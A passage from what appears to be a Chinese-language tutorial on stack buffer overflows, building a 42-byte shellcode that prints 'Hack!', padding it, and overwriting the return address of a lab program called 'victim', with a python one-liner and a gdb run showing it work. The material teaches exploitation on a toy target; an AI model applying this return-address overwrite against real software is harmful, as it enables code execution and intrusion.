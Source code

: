 以上机器码一共 42 个字节， name 到 ret rip 之间一共 72 个字节，因此还需要补 30 个字节，最后填上 name 的起始地址 0x7fffffffe100 。 main 函数执行到 ret 命令时，栈上的数据应该是下面这个样子的（注意最后的 name 起始地址需要按 ***小端顺序*** 保存）：

                                            Stack
     name(0x7fffffffe100)--> +---------------------------------+ <---+
                             |  eb 1e           (jmp END)      |     |
                    BEGIN--> +---------------------------------+     |
                             |  b8 01 00 00 00  (mov eax,0x1)  |     |
                             +---------------------------------+     |
                             |  bf 01 00 00 00  (mov edi,0x1)  |     |
                             +---------------------------------+     |
                             |  5e              (pop rsi)      |     |
                             +---------------------------------+     |
                             |  ba 05 00 00 00  (mov edx,0x5)  |     |
                             +---------------------------------+     |
                             |  0f 05           (syscall)      |     |
                             +---------------------------------+     |
                             |  b8 3c 00 00 00  (mov eax,0x3c) |     |
                             +---------------------------------+     |
                             |  bf 00 00 00 00  (mov edi,0x0)  |     |
                             +---------------------------------+     |
                             |  0f 05           (syscall)      |     |
                       END-> +---------------------------------+     |
                             |  e8 dd ff ff ff  (call BEGIN)   |     |
                             +---------------------------------+     |
                             |  48 61 63 6b 21  ("Hack!")      |     |
         (0x7fffffffe12a)--> +---------------------------------+     |
                             |  "\x00"*30                      |     |
      rsp(0x7fffffffe148)--> +---------------------------------+     |
                             |  00 e1 ff ff ff 7f 00 00        | ----+
                             +---------------------------------+

上图中的栈上的所有字节码就是我们需要输入给 scanf 函数的字符串，这个字符串一般称为 shellcode 。由于这段 shellcode 中有很多无法通过键盘输入的字节码，因此用 python 将其打印至文件中：

    $ python -c 'print "\xeb\x1e\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x5e\xba\x05\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbf\x00\x00\x00\x00\x0f\x05\xe8\xdd\xff\xff\xff\x48\x61\x63\x6b\x21" + "\x00"*30 + "\x00\xe1\xff\xff\xff\x7f\x00\x00"' > shellcode

现在可以对 victim 进行攻击了，不过目前只能在 gdb 的调试环境下进行攻击。输入 ***gdb -q ./victim*** ，再输入 ***run < shellcode***：

    $ gdb -q ./victim
    Reading symbols from ./victim...done.
    (gdb) run < shellcode
    Starting program: /home/hcj/blog/rop/ch02/victim < shellcode
    What's your name?Hello, ��!
    Hack![Inferior 1 (process 2711) exited normally]
    (gdb) 
